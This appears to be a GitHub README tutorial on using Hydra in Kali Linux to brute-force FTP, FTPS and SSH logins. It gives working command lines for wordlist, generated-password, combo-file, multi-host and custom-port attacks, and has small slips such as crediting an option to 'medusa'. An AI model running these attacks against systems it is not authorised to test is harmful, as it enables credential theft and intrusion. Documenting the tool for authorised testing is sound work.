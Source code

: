 # Hydra - Guide
A Detailed Guide On Hydra -  Kali Linux

![image](https://github.com/JinendraPrasad/Hydra/assets/99186783/7b257321-89b2-4d84-b3c8-d69d81e8df5a)


Hydra is a very fast network logon cracker that supports many different services. It is a parallelized login cracker that supports numerous protocols to attack. New modules are easy to add, besides that, it is flexible and very fast. This tool gives researchers and security consultants the possibility to show how easy it would be to gain unauthorized access from a remote to a system.

For most protocols, SSL is supported (e.g., https-get, ftp-ssl, etc.). If not, all necessary libraries are found during compile time, your available services will be fewer. Type "hydra" to see what is available.


**To guess the Password for a specific username**

If you have a correct username but want to log in without knowing the password, you can use a list of passwords and brute force passwords on the host for **ftp** service.
```
hydra -l ignite -P pass.txt xxx.xxx.xxx.xx1 ftp
```
Here -l option is for username -P for password lists and host IP address for FTP service. 

**To guess username for specific password**

You may have a valid password but no idea what username to use. Assume you have a password for a specific FTP login. You can brute force the field with the correct username wordlists to find the correct one. 
```
hydra -L users.txt -p 123 xxx.xxx.1.xx1 ftp
```
You can use the -L option to specify user wordlists and the -p option to specify a specific password. Here, our wordlist is users.txt for which the -L option is used, and the password is 123 and for that -p option is used over FTP.

**Brute forcing Username and Password**

Now if you don’t have either of username or password, for that you can use brute force attack on both the parameters username and password with wordlist of both and you can use -P and -U parameters for that.
```
hydra -L users.txt -P pass.txt xxx.xxx.xx.xxx ftp
```
**Verbose and Debug Mode**

-V option is used for verbose mode, where it will show login+pass combination for each attempt. Here, I have two wordlists users.txt and pass.txt so the brute force attack was making combinations of each login+password and verbose mode showed all the attempt.
```
hydra -L users.txt -P pass.txt xxx.xxx.xx.xxx ftp -V
```
Now is the -d option used to enable debug mode. It shows the complete detail of the attack with waittime, conwait, socket, pid, RECV
```
hydra -l ignite -P pass.txt xxx.xxx.xxx.xxx ftp -d
```
-d option enabled debug mode which, as shown displayed complete detail of the attack.

**NULL/Same as Login or Reverse login Attempt**

Hydra has an option -e which will check 3 more passwords while brute forcing. [n] for null, [s] for same i.e., as same as username and [r] for reverse i.e., the reverse of username. As shown in the 
screenshot, while brute-forcing the password field, it will first check with null option then same option and after that reverse. And then the list which I have provided.

```
hydra -L users.txt -P pass.txt xxx.xxx.xxx.xxx ftp -V -e nsr
```

**Saving output in Disk**

This tool gives you an option to save the result into the disk. Basically for record maintenance, better readability and future preferences we can save the output of the brute force attack into a file by using -o parameter. 

```
hydra -L users.txt -P pass.txt xxx.xxx.xxx.xxx ftp -o result.txt
```

**Password generating using various set of characters**

To generate passwords using various set of characters, you can use -x option. It is used as -x min:max:charset where,
Min: specifies minimum number of characters in password.
Max: specifies maximum number of characters in password.
Charset: charset can contain 1 for numbers, a for lowercase and A for uppercase characters. Any other character which is added is put to the list.
Let’s consider as example: 1:2:a1%.The generated passwords will be of length 1 to 2 and contain lowercase letters, numbers and/or percent signs and dots.

```
hydra -l ignite -x 1:3:1 ftp://xxx.xxx.xx.xxx
```
here minimum length of password is 1 and max length is 3 in which it will contain numbers and for password 123 it showed success.

**To attack on specific port rather than default**

Network admins sometimes change the default port number of some services for security reasons. In the previous commands hydra was making brute force attack on ftp service by just mentioning the service name rather than port, but as mentioned earlier default port gets changed at this time hydra will help you with -s option. If the service is on a different default port, define it using -s option.

```
nmap -sV xxx.xxx.xxx.xxx
hydra -L users.txt -P pass.txt xxx.xxx.xxx.xxx ssh -s 2222
```

So to perform, first I tried running nmap scan at the host. And the screenshot shows all open ports where ssh is at 2222 port. So post that I tried executing the hydra command with -s parameter and port number.

**Attacking on Multiple Hosts**

As earlier I performed brute force attack using password file pass.txt and username file users.txt on single host i.e., xxx.xxx.xxx.xxx. But if there are multiple hosts, for that you can use -M with the help of which brute force is happening at multiple hosts.
```
hydra -L users.txt -P pass.txt -M hosts.txt ftp
```
Now in the above command, I have used the -M option for multiple hosts so, it is very time-consuming to display all the attempts taking place during the attack, for that medusa has provided the -F option such that the attack will exit after the first found login/password pair for any host.

```
hydra -L users.txt -P pass.txt -M hosts.txt ftp -F
```

**Using Combo Entries**

This tool gives you a unique parameter -C for using combo entries. First, you need to create a file that has data in colon-separated "login: pass" format, and then you can use the -C option mentioning the file name and perform a brute force attack instead of using the -L/-P options separately. In this way, the attack can be faster and give you the desired result in less time.
```
cat userpass.txt
hydra -C userpass.txt xxx.xxx.xxx.xxx ftp
```

**Concurrent Testing on Multiple Logins**

If you want to test multiple logins concurrently, for that you can use -t option by mentioning the number and hence hydra will brute force concurrently.

```
hydra -L users.txt -P pass.txt xxx.xxx.xxx.xxx ftp -t 3 -V
```

**Attacking on secured service connection**

While performing attack on ftp connection, you just mention the service name along with appropriate options, but if the host has ftp port open but and ftp is secured, so if you use,
```
hydra -l ignite -P pass.txt ftp://xxx.xxx.xxx.xxx 
```
This command will not execute properly and hence 0 valid password found. So in order to perform attack on secured ftp connection, then run this command.
```
hydra -l ignite -P pass.txt ftps://xxx.xxx.xxx.xxx
```

This is one way to attack on secured ftp, hydra provides one more way to attack on secured service

```
hydra -l ignite -P pass.txt xxx.xxx.xxx.xxx ftp
hydra -l ignite -P pass.txt xxx.xxx.xxx.xxx ftps
```

The first did not worked as the host xxx.xxx.xxx.xxx has secured ftp, but second worked and showed us valid password found. In this way you can perform brute force attack on hosts which have secured services open.











